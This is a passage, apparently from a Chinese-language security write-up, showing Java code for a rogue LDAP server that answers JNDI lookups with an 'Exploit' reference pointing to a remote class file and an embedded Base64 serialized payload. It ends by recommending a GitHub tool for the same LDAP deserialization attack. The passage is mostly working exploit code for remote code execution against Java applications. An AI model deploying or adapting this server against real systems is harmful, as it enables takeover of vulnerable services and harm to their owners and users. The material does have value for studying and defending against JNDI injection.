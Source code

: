 ```
        }

        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);

            try {
                this.sendResult(result, base, e);
            } catch (Exception var5) {
                var5.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf(35);
            if (refPos > 0) {
                cbstring.substring(0, refPos);
            }
            try {
                e.addAttribute("javaSerializedData", Base64.decode(this.POC));
            } catch (ParseException var8) {
                var8.printStackTrace();
            }
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```



可以使用项目[LdapBypassJndi](https://github.com/Firebasky/LdapBypassJndi)，工具将代码实现了ldap序列化对象的漏洞利用。

